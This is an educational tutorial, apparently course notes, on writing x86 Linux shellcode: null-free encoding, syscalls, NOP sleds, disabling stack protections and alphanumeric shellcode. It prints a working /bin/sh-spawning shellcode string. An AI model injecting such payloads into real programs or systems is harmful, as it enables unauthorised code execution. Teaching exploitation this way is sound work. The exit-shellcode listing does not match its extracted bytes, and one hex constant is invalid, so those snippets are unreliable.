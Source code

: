 #Shellcoding

**Shellcode** -- A set of instructions that are injected by the user 
and executed by the exploited `binary`, It's generally the ‘payload’ of
an `exploit`.

Using shellcode you can essentially make a program execute code that 
never existed in the original binary. You’re basically injecting code.

Why the name “shellcode”?  historically started a command shell 

Shellcode is generally hand coded in assembly, but its functionality 
can be represented in C

```c
char *shell[2];

shell[0] = "/bin/sh";
shell[1] = NULL;

execve(shell[0], shell, NULL);
exit(0);
```

Shellcode as a String

```c
char shellcode[] =
 "\x31\xc0\x50\x68\x2f\x2f\x73"
 "\x68\x68\x2f\x62\x69\x6e\x89"
 "\xe3\x89\xc1\x89\xc2\xb0\x0b"
 "\xcd\x80\x31\xc0\x40\xcd\x80";
```

When shellcode is read as a string, null bytes become an issue
with common string functions.

Solution: Make your shellcode NULL free!

The instruction

```asm
mov eax, 4 ; “\xB8\x04\x00\x00\x00”
```

can be replaced by:

```asm
mov al, 4 ; “\xb0\x04”
```

#Can you make shellcode smaller?

##Common Tricks

xoring anything with itself clears itself:

```asm
xor eax, eax ; "\x31\xC0"
```

clear three registers in four bytes:

```asm
xor ebx, ebx
mul ebx ; "\x31\xDB\xF7\xE3"
```

There’s always more than one way to do things

#Linux System Calls

System calls are how userland programs talk to
the kernel to do anything interesting:

  *  open files, read, write, map memory, execute programs, etc

  *  libc functions are high level syscall wrappers

     `fopen()`, `sscanf()`, `execv()`, `printf()` ...


#Using Syscalls in Shellcode

Like programs, your shellcode needs syscalls to do anything of interest

Syscalls can be made in x86 using interrupt 0x80 `int 0x80`

Look [here](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html) for system call table.

#Syscall Summary

Linux Syscalls sorta use fastcall

  * specific syscall number is loaded into `eax`
  * arguments for call are placed in different registers 
  * `int 0x80` executes call to `syscall()`
  * CPU switches to kernel mode
  *  each syscall has a unique, static number

#Compiling Shellcode

Assemble to get object file, link any necessary object files and
extract shellcode from `objdump`

```asm
; exit_shellcode.asm
section .text
global _start
_start:
		xor ebx, ebx
		xor eax, eax
		mov al, 1
```

```
$ nasm -f elf32 exit_shellcode.asm
$ ld -o exit_shellcode exit_shellcode.o
$ objdump -M intel -d exit_shellcode
```

Our shellcode as a string, extracted from `objdump`:

```
"\x31\xc0\x31\xDB\xB0\x01\xCD\x80" 
```

##Stages of Compilation

[here image]

#Shellcoding Tools We <3

Writing Shellcode

  * `pwntools` (python package)
    * `asm`
    * `disasm`

Testing Shellcode

  * `shtest`

##asm / disasm

Basic Usage, you should read the help’s (`-h`)

```asm
$ asm
 xor eax, eax
 (ctrl+d)
 31c0

$ disasm 31c0
 0: 31 c0 xor eax,eax
```

#Shellcode in Exploitation

 In the real world, 99% of binaries won’t have a ‘win’ function 
laying around for you to return to once you hijack control flow... so 
what do you do instead?

You inject **shellcode** as part of your payload and return to that!

#NOP Sleds

Remember ‘nop’ (`\x90`) is an instruction that does nothing

If you don’t know the exact address of your shellcode in memory, pad 
your **exploit** with `nop` instructions to make it more reliable!

```
90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90
90 90 shellcode 90 90 90 90 addr
```

`addr` is return address

#Party like It’s ‘99

```
gcc -z execstack -fno-stack-protector
```

This is classical exploitation - it’s not as easy to simply inject 
and execute shellcode anymore; 

**but you must walk before you can run**

#Function Constraints

`fgets()` reads stdin until input length, `scanf()` and `gets()` read 
until terminating character (rare to see `gets` or ‘insecure’ 
functions used nowadays)

`\x00` (NULL) byte stops most string functions:

  * `strcpy()`, `strlen()`, `strcat()`, `strcmp()` ...

`\x0A` (newline) byte causes `gets()`, `fgets()` to stop reading.
**But not NULLs!**

`fgets()` and `gets()` stop only after an `EOF` or a newline. 

#Little Endian

In memory, stuff is going in backwards

```
String Input: “\x41\x42\x43\x44” (ABCD)
On the Stack: “\x44\x43\x42\x41” (DCBA)
```

Target Address in Python: 

```py
pack ( ‘<I’, 0xDDEEFFGG)
```

#Alphanumeric Shellcode

**Scenario:** Sometimes a program accepts only ASCII characters...
so you need alphanumeric shellcode! 

Functions such as `isalnum()` from `ctype.h` are used to check if 
strings are alphanumeric

```
OP Code Hex ASCII
inc eax 0x40 @
inc ebx 0x43 C
inc ecx 0x41 A
inc edx 0x42 B
dec eax 0x48 H
dec ebx 0x4B K
dec ecx 0x49 I
dec edx 0x4A J
```

to zero out `eax`:

```asm
and eax, 0x454e4f4a
and eax, 0x3a313035
```

=> `"\x25\x4A\x4F\x4E\x45\x25\x35\x30\x31\x3A"`

move `eax` into `esp`

```asm
push eax
pop esp
```

=> `"\x50\x5C"`

Can generally do what you need to, but it’s trickier and takes more 
bytes
